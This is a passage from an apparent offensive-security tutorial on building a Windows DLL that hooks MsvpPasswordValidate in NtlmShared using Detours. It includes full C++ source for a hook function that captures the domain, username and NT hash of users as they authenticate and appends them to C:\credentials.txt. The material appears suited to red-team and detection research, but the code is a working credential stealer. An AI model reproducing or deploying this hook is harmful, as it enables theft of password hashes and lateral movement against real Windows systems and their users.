 It first gets a handle to the NtlmShared DLL at line 9. 
At line 17 the address to the beginning of `MsvpPasswordValidate` is resolved by using `GetProcAddress`, passing to it the handle to NtlmShared and a string containing the name of the function. 
At lines from 24 to 27 Detours does its magic and replaces `MsvpPasswordValidate` with our rogue `HookMSVPPValidate` function. If the hook is installed correctly, `InstallHook` returns true.
You may have noticed I use the `DEBUG` macro to print debug information. This macro makes use of conditional compilation to write to `C:\debug.txt` if the `DEBUG_BUILD` macro is defined in `hppdll.h`, otherwise it does nothing.

##### HookMSVPPValidate.cpp
Here comes the most important piece of the DLL, the routine responsible for extracting the credentials from memory.

```c++
#include "pch.h"
#include "hppdll.h"

BOOLEAN HookMSVPPValidate(BOOLEAN UasCompatibilityRequired, NETLOGON_LOGON_INFO_CLASS LogonLevel, PVOID LogonInformation, void* Passwords, PULONG UserFlags, PUSER_SESSION_KEY UserSessionKey, PVOID LmSessionKey)
{
	DEBUG("Hook called!");
	// cast LogonInformation to NETLOGON_LOGON_IDENTITY_INFO pointer
	NETLOGON_LOGON_IDENTITY_INFO* logonIdentity = (NETLOGON_LOGON_IDENTITY_INFO*)LogonInformation;

	// write to C:\credentials.txt the domain, username and NT hash of the target user
	std::wofstream credentialFile;
	credentialFile.open("C:\\credentials.txt", std::fstream::in | std::fstream::out | std::fstream::app);
	credentialFile << L"Domain: " << logonIdentity->LogonDomainName.Buffer << std::endl;
	std::wstring username;
	
	// LogonIdentity->Username.Buffer contains more stuff than the username
	// so we only get the username by iterating on it only Length/2 times 
	// (Length is expressed in bytes, unicode strings take two bytes per character)
	for (int i = 0; i < logonIdentity->UserName.Length/2; i++)
	{
		username += logonIdentity->UserName.Buffer[i];
	}
	credentialFile << L"Username: " << username << std::endl;
	credentialFile << L"NTHash: ";
	for (int i = 0; i < 16; i++)
	{
		unsigned char hashByte = ((unsigned char*)Passwords)[i];
		credentialFile << std::hex << hashByte;
	}
	credentialFile << std::endl;
	credentialFile.close();

	DEBUG("Hook successfully called!");
	return MsvpPasswordValidate(UasCompatibilityRequired, LogonLevel, LogonInformation, Passwords, UserFlags, UserSessionKey, LmSessionKey);
}
```

